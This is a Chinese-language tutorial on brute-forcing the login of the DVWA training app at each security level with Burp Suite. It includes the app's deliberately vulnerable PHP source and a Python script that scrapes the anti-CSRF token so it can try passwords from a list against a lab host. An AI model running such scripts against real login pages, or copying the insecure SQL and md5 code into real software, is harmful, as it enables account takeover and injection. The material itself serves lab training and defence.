

<!--more-->

### **0x00 前言**
前面介绍了下dvwa的环境搭建，下面我们准备了burpsuit来进行进行暴力破解，当然最后的hign等级需要编写简单的代码获取user_token值来获取，最后达到破解的目的，最后我们看下impossible是如何进行防破解的。

### **0x01 基础知识**

> Burpsuit


玩web渗透神器之一，他是集大成之作，里面有爬虫，有暴力破解，有扫漏,有解码等等。我用也不是很久，但一开始就被他强大的功能吸引住了。

> switchyomega


这是浏览器的插件，可以灵活的切换上网的形式，不用作本地的全局代理，现在使用他主要让他把我们访问网站的流量引导到burpsuit,这样我们能分析网络流量，对抓包截包改包特别有帮助。


### **0x02 开始实验**
#### low等级

burpsuit看下截的包


参数我解释下
```
post/get: 决定数据包的提交方式
host: 源地址
Referer: 一些网站需要验证Refere信息，告诉服务器，我是从那个页面转过来的
Accept-Encoding:数据格式
Accept-Language:语言
Cookie:用于暴力破解过程中保持和服务器的连接
```

账号和密码都是未加密的，再看下源码
```
<?php 

if( isset( $_GET[ 'Login' ] ) ) { 
    // Get username 
    $user = $_GET[ 'username' ]; 

    // Get password 
    $pass = $_GET[ 'password' ]; 
    $pass = md5( $pass ); 

    // Check the database 
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 

    if( $result && mysql_num_rows( $result ) == 1 ) { 
        // Get users details 
        $avatar = mysql_result( $result, 0, "avatar" ); 

        // Login successful 
        echo "<p>Welcome to the password protected area {$user}</p>"; 
        echo ""; 
    } 
    else { 
        // Login failed 
        echo "<pre><br />Username and/or password incorrect.</pre>"; 
    } 

    mysql_close(); 
} 

?> 
```
没有任何措施，直接爆破，这次我们假设知道了用户名admin,不知道密码的情况下


我们能看到长度不同的那个就是密码password


#### medium 等级

我们直接看下源码


```
<?php 

if( isset( $_GET[ 'Login' ] ) ) { 
    // Sanitise username input 
    $user = $_GET[ 'username' ]; 
    $user = mysql_real_escape_string( $user ); 

    // Sanitise password input 
    $pass = $_GET[ 'password' ]; 
    $pass = mysql_real_escape_string( $pass ); 
    $pass = md5( $pass ); 

    // Check the database 
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 

    if( $result && mysql_num_rows( $result ) == 1 ) { 
        // Get users details 
        $avatar = mysql_result( $result, 0, "avatar" ); 

        // Login successful 
        echo "<p>Welcome to the password protected area {$user}</p>"; 
        echo ""; 
    } 
    else { 
        // Login failed 
        sleep( 2 ); 
        echo "<pre><br />Username and/or password incorrect.</pre>"; 
    } 

    mysql_close(); 
} 

?> 
```
他只是设置了延迟，每隔两秒钟设置用户才能提交一次表单。

直接抓包爆破一下，看下能否成功，过程和low等级一样，


密码出来了。



#### hign 等级
我们先来按前面的方法实验一下


加了token值，没能爆破成功。


token主要有两个作用：
```

①：防止表单重复提交(防止表单重复提交一般还是使用前后端都限制的方式，比如：在前端点击提交之后，将按钮置为灰色，不可再次点击，然后客户端和服务端的token各自独立存储，客户端存储在Cookie或者Form的隐藏域（放在Form隐藏域中的时候，需要每个表单）中，服务端存储在Session（单机系统中可以使用）或者其他缓存系统（分布式系统可以使用）中。)

②：用来作身份验证
3：防止表单重复提交，主要的理念是，客户端初始化的时候，一般就是刚刚进入页面的时候就调用后端代码，后端代码生成一个token,返回给客户端，客户端储存token（可以在前台使用Form表单中使用隐藏域来存储这个Token，也可以使用cookie）,然后就将request(请求)中的token与（session）中的token进行比较：

4：使用基于 Token 的身份验证方法，在服务端不需要存储用户的登录记录。大概的流程是这样的：

客户端使用用户名跟密码请求登录
服务端收到请求，去验证用户名与密码
验证成功后，服务端会签发一个 Token，再把这个 Token 发送给客户端
客户端收到 Token 以后可以把它存储起来，比如放在 Cookie 里或者 Local Storage 里
客户端每次向服务端请求资源的时候需要带着服务端签发的 Token
服务端收到请求，然后去验证客户端请求里面带着的 Token，如果验证成功，就向客户端返回请求的数据
--------------------- 
作者：qq_32784541 
来源：CSDN 
原文：https://blog.csdn.net/qq_32784541/article/details/79655146 
版权声明：本文为博主原创文章，转载请附上博文链接！
--------------------- 
```
> 总结下token的好处，

1、不能无脑提交用户名和密码，也就造成了不能无脑爆破

2、可以抵御CSRF攻击，这个我们以后会讲到这个问题。

但是这样有用吗。我们每次只要模拟用户提交表单的过程，去获得token,这样不就ok了吗？我们来看下破解过程


直接模仿他祭出代码

```
from bs4 import BeautifulSoup
import urllib2

header = {'Host': 'localhost',
          'Cache-Control': 'no-cache, must-revalidate',
          'If-None-Match': "307-52156c6a290c0",
          'If-Modified-Since': 'Wed, 15 Aug 2018 05:49:00 GMT',
          'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36',
          'Accept': '*/*',
          'Referer': 'http://192.168.20.4/DVWA-1.9/security.php',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
          'Cookie': 'security=high; PHPSESSID=jtk7sfbun1igmel8ehlppkmbe1'
          }
requrl = "http://192.168.20.4/DVWA-1.9/vulnerabilities/brute/"


def get_token(requrl, header):
    req = urllib2.Request(url=requrl, headers=header)
    response = urllib2.urlopen(req)
    print response.getcode(),
    the_page = response.read()
    print len(the_page)
    soup = BeautifulSoup(the_page, "html.parser")
    # print '###################'
    # print soup.find_all('input')[3].get('value')
    user_token = soup.find_all('input')[3].get('value')
    # user_token = soup.form.input.input.input.input["value"]
    return user_token


user_token = get_token(requrl, header)
i = 0
for line in open('E:\untitled3/password.txt'):
    requrl = "http://192.168.20.4/DVWA-1.9/vulnerabilities/brute/" + "?username=admin&password=" + line.strip() + "&Login=Login&user_token=" + user_token
    i = i + 1
    print i, 'admin', line.strip(),
    user_token = get_token(requrl, header)
    if (i == 10):
        break
```
ok .完成破解

#### impossible 等级
还是老样子，先看下源码

```
<?php 

if( isset( $_POST[ 'Login' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Sanitise username input 
    $user = $_POST[ 'username' ]; 
    $user = stripslashes( $user ); 
    $user = mysql_real_escape_string( $user ); 

    // Sanitise password input 
    $pass = $_POST[ 'password' ]; 
    $pass = stripslashes( $pass ); 
    $pass = mysql_real_escape_string( $pass ); 
    $pass = md5( $pass ); 

    // Default values 
    $total_failed_login = 3; 
    $lockout_time       = 15; 
    $account_locked     = false; 

    // Check the database (Check user information) 
    $data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' ); 
    $data->bindParam( ':user', $user, PDO::PARAM_STR ); 
    $data->execute(); 
    $row = $data->fetch(); 

    // Check to see if the user has been locked out. 
    if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  { 
        // User locked out.  Note, using this method would allow for user enumeration! 
        //echo "<pre><br />This account has been locked due to too many incorrect logins.</pre>"; 

        // Calculate when the user would be allowed to login again 
        $last_login = $row[ 'last_login' ]; 
        $last_login = strtotime( $last_login ); 
        $timeout    = strtotime( "{$last_login} +{$lockout_time} minutes" ); 
        $timenow    = strtotime( "now" ); 

        // Check to see if enough time has passed, if it hasn't locked the account 
        if( $timenow > $timeout ) 
            $account_locked = true; 
    } 

    // Check the database (if username matches the password) 
    $data = $db->prepare( 'SELECT * FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' ); 
    $data->bindParam( ':user', $user, PDO::PARAM_STR); 
    $data->bindParam( ':password', $pass, PDO::PARAM_STR ); 
    $data->execute(); 
    $row = $data->fetch(); 

    // If its a valid login... 
    if( ( $data->rowCount() == 1 ) && ( $account_locked == false ) ) { 
        // Get users details 
        $avatar       = $row[ 'avatar' ]; 
        $failed_login = $row[ 'failed_login' ]; 
        $last_login   = $row[ 'last_login' ]; 

        // Login successful 
        echo "<p>Welcome to the password protected area <em>{$user}</em></p>"; 
        echo ""; 

        // Had the account been locked out since last login? 
        if( $failed_login >= $total_failed_login ) { 
            echo "<p><em>Warning</em>: Someone might of been brute forcing your account.</p>"; 
            echo "<p>Number of login attempts: <em>{$failed_login}</em>.<br />Last login attempt was at: <em>${last_login}</em>.</p>"; 
        } 

        // Reset bad login count 
        $data = $db->prepare( 'UPDATE users SET failed_login = "0" WHERE user = (:user) LIMIT 1;' ); 
        $data->bindParam( ':user', $user, PDO::PARAM_STR ); 
        $data->execute(); 
    } 
    else { 
        // Login failed 
        sleep( rand( 2, 4 ) ); 

        // Give the user some feedback 
        echo "<pre><br />Username and/or password incorrect.<br /><br/>Alternative, the account has been locked because of too many failed logins.<br />If this is the case, <em>please try again in {$lockout_time} minutes</em>.</pre>"; 

        // Update bad login count 
        $data = $db->prepare( 'UPDATE users SET failed_login = (failed_login + 1) WHERE user = (:user) LIMIT 1;' );
        $data->bindParam( ':user', $user, PDO::PARAM_STR ); 
        $data->execute(); 
    } 

    // Set the last login time 
    $data = $db->prepare( 'UPDATE users SET last_login = now() WHERE user = (:user) LIMIT 1;' ); 
    $data->bindParam( ':user', $user, PDO::PARAM_STR ); 
    $data->execute(); 
} 
0x
// Generate Anti-CSRF token 
generateSessionToken(); 

?> 
```

发现频繁登录，直接锁定账号，有效避免了暴力破解


### 0x03总结

我们说明了暴力破解的危害以及怎么去防止暴力破解，这次也演示了dvwa网站的三种等级如何进行破解。


